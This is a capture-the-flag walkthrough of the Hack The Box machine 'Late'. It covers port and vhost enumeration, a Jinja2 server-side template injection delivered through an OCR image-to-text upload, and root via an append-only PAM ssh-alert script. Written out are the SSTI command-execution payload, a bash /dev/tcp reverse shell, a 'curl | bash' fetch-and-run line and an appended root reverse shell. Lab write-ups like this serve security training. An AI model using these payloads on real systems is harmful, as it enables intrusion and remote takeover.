



# Late
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.156 -T4                                                                                          
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-28 12:33 BST
Nmap scan report for 10.10.11.156 (10.10.11.156)
Host is up (0.16s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 696.11 seconds
```
```
└─$ nmap -Pn -sC -sV 10.10.11.156 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-28 12:33 BST
Nmap scan report for 10.10.11.156 (10.10.11.156)
Host is up (0.20s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp   open     http        nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
2106/tcp filtered ekshell
3851/tcp filtered spectraport
3998/tcp filtered dnx
6006/tcp filtered X11:6
9502/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.09 seconds

```
- Wer Server


- `vhosts`
  - `late.htb`, `images.late.htb`


- `images.late.htb`


- No other `vhost` was found
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://late.htb/' -H 'Host: FUZZ.late.htb'  -fs 9461

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://late.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.late.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 9461
________________________________________________

[Status: 200, Size: 2187, Words: 448, Lines: 64, Duration: 486ms]
    * FUZZ: images
```

- `gobuster`
```
└─$ gobuster dir -u http://late.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://late.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              html,txt
[+] Timeout:                 10s
===============================================================
2023/08/28 13:52:20 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 9461]
/contact.html         (Status: 200) [Size: 6364]
/assets               (Status: 301) [Size: 194] [--> http://late.htb/assets/]
```
```
└─$ gobuster dir -u http://images.late.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://images.late.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              html,txt
[+] Timeout:                 10s
===============================================================
2023/08/28 13:53:47 Starting gobuster in directory enumeration mode
===============================================================
/scanner              (Status: 500) [Size: 290]
```
## Foothold/User
- If we upload an image we receive a response with `html` tags




- The page says that it can convert image into text document, so maybe we have to send a picture with some text
  - And it works


- It could be [Optical Character recognition](https://en.wikipedia.org/wiki/Optical_character_recognition)
  - Like [Tesseract OCR](https://github.com/tesseract-ocr/tesseract)
  - After playing around with request, I was stuck for a while until I saw a hint in the forum regarding `SSTI`
  - So tried `{{ 7 * 7 }}` in the image
  - And it worked


- Now let's try running any command
  - Since it's a flask application, it usually uses `jinja2` template engine
  - https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python
  - But when I tried the following payload: `{{  cycler.__init__.__globals__.os.popen('id').read()  }}`
  - It resulted in error


- Finally, I made it work by changing single quotes to double quotes and made the text bold
  - `{{  cycler.__init__.__globals__.os.popen("id").read()  }}`




- Let's try getting reverse shell
  - The less symbols we have, the better
  - So I will curl script and pipe it to bash
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

- I had to play around with font again
  - `Comic Sans MS` worked in this case
  - `{{  cycler.__init__.__globals__.os.popen("curl 10.10.16.5/shell  | bash ").read()  }}`


- `svc_acc` has a key, we can download it and connect via `ssh` for more stable connection


## Root
- Enumerate
  - Interesting script that `svc_acc` can write to
  - And was modified in last 5 minutes


- The content of the script
```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi

```

- We see that it is related with `pam`
  - Let's check `pam`'s config files

```
svc_acc@late:/tmp$ grep -r ssh-alert.sh /etc/
/etc/pam.d/sshd:session required pam_exec.so /usr/local/sbin/ssh-alert.sh
```

- It looks that script send email to `root@late.htb` when new `ssh` login occur
  - We can test it using `pspy` and try `ssh`
  - And it happens to be true


- We can modify script and get our shell
  - But when I tried modifying it, I couldn't
  - `lsattr` shows `a` attribute set, which only allows appending


```
svc_acc@late:/tmp$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

- So we can do `echo "bash -i >& /dev/tcp/10.10.16.5/7777 0>&1" >> /usr/local/sbin/ssh-alert.sh` 
  - Connect via `ssh` again and get `root




